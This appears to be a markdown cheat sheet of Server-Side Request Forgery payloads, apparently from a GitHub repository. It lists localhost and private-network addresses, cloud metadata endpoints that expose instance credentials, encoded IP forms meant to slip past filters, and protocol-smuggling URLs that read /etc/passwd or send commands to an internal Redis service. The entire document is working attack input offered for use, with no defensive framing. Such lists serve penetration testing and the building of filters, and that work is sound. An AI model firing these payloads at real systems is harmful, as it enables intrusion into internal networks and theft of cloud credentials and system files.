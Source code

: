# Server-Side Request Forgery (SSRF) Payloads

## Basic SSRF
```
http://localhost
http://127.0.0.1
http://0.0.0.0
http://[::1]
```

## Internal Network
```
http://192.168.1.1
http://10.0.0.1
http://172.16.0.1
http://169.254.169.254
```

## Cloud Metadata
```
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
http://100.100.100.200/latest/meta-data/
```

## Bypass Filters
```
http://127.1
http://0x7f000001
http://2130706433
http://017700000001
```

## Protocol Smuggling
```
file:///etc/passwd
gopher://127.0.0.1:6379/_INFO
dict://127.0.0.1:6379/info
```